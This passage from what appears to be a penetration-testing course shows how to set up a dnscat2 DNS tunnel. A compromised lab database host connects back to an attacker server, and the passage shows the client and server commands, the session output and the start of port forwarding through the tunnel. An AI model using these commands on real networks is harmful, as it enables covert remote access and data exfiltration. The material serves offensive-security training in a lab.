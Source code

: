Thinking about exfiltration techniques (like DNS tunneling) may seem to present a "chicken or the egg" problem. How do we get the DNS tunneling client onto a host if we don't have command execution? Exfiltration is simply a tool we'll use to transfer data. It should be coupled with an exploitation vector that provides access to the target network.

We'll run the dnscat2 client binary from the dnscat folder in the database_admin home directory, with the feline.corp domain passed as the only argument.

```bash
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
...
Session established!
```

We can check for connections back on our dnscat2 server:

```bash
kali@felineauthority:~$ dnscat2-server feline.corp
...
dnscat2> New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas

dnscat2>
```

Our session is connected! DNS is working exactly as expected. Requests from PGDATABASE01 are being resolved by MULTISERVER03, and end up on FELINEAUTHORITY.

When run without a pre-shared --secret flag at each end, dnscat2 will print an authentication string. This is used to verify the connection integrity after the encryption has been negotiated. The authentication string in this case ("Annoy Mona Spiced Outran Stump Visas") is the same on both client and server, so we know there's no in-line tampering. Every time a connection is made, the authentication string will change.

We can use our tcpdump process to monitor the DNS requests to feline.corp. The dnscat2 process is using CNAME, TXT, and MX queries and responses. As indicated by this network data, DNS tunneling is certainly not stealthy! This output reveals a huge data transfer from the dnscat2 client to the server. All the request and response payloads are encrypted, so it's not particularly beneficial to keep logging the traffic. We'll go ahead and kill tcpdump with Ctrl+c.

Now we'll start interacting with our session from the dnscat2 server. Let's list all the active windows with the windows command, then run window -i from our new "command" shell to list the available commands.

```bash
dnscat2> windows
...
dnscat2> window -i 1
...
command (pgdatabase01) 1> ?
```

Since we're trying to tunnel in this Module, let's investigate the port forwarding options. We can use listen to set up a listening port on our dnscat2 server, and push TCP traffic through our DNS tunnel, where it will be decapsulated and pushed to a socket we specify. Let's background our console session by pressing Ctrl+z. Back in the command session, let's run listen --help.

